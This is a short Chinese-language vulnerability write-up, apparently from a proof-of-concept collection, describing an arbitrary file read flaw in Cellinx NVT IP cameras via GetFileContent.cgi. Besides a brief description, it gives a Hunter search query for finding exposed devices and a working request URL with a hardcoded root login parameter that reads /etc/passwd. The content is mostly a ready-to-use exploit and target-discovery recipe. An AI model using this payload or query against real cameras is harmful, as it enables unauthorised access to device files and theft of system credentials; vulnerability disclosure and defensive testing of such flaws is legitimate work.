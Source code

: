 # Cellinx NVT 摄像机 GetFileContent.cgi 任意文件读取漏洞

# 一、漏洞简介
Cellinx NVT IP PTZ是韩国Cellinx公司的一个摄像机设备。Cellinx NVT v1.0.6.002b版本存在安全漏洞，该漏洞源于存在本地文件泄露漏洞，攻击者可读取系统密码等敏感信息。

# 二、影响版本
+ Cellinx NVT 摄像机 

# 三、资产测绘
+ hunter`web.body="local/NVT-string.js"`
+ 特征

![1700147527163-e3d6c796-662b-461d-a2d8-c879b388bfb5.png](./img/qqGC1EAYOXIL_3Db/1700147527163-e3d6c796-662b-461d-a2d8-c879b388bfb5-628657.png)

# 四、漏洞复现
```plain
/cgi-bin/GetFileContent.cgi?USER=root&PWD=D1D1D1D1D1D1D1D1D1D1D1D1A2A2B0A1D1D1D1D1D1D1D1D1D1D1D1D1D1D1B8D1&PATH=/etc/passwd&_=1672577046605
```

![1700147551526-19a4ef00-9add-4be1-af80-70fe238bd21c.png](./img/qqGC1EAYOXIL_3Db/1700147551526-19a4ef00-9add-4be1-af80-70fe238bd21c-591022.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hy0qp46w1tuklewg>